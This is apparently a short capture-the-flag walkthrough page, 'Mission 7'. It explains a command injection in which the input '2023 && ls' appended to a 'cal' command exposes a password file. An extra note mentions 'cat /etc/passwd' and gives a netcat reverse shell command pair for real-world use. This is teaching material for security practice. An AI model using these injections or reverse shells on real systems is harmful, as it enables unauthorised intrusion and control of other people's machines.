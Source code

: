 # Mission 7

You only need to have some Linux basic command knowledge to crack this.

<details>
  <summary> Reveal Hint </summary>
  
  **Hint:** What you have to use is command injection method.
  
</details>

---

<details>
  <summary> Reveal Answer </summary>
  
  **Answer:** When you type in '2023', what happens behind the scene is that the underlying Linux system runs 'cal 2023' command, dump the output to cal.pl file, and redirect u to that file. Since it does not do any form of input sanitization, the command is directly executed. Therefore, if you type in '2023 && ls', the linux system will dump the output of 'cal' command and 'ls' command into cal.pl file. And, you will see the password file there.

  **Extra Note:** The truth is this form actually does some kinda filtering to only allow 'ls' command. Therefore, you will not see any output if you try other commands like 'whoami' or 'cat /etc/passwd'. In real world situation, if you can perform command injection, you might be able to use other commands or make a reverse shell connection back to yourself. For example, run 'nc -nvlp 8000' on your PC and 'nc your_ip_address 8000 -e /bin/bash' on the target.
  
</details>

[<< Previous](../Mission%206/) &nbsp;&nbsp;|&nbsp;&nbsp; [Next >>](../Mission%208/)
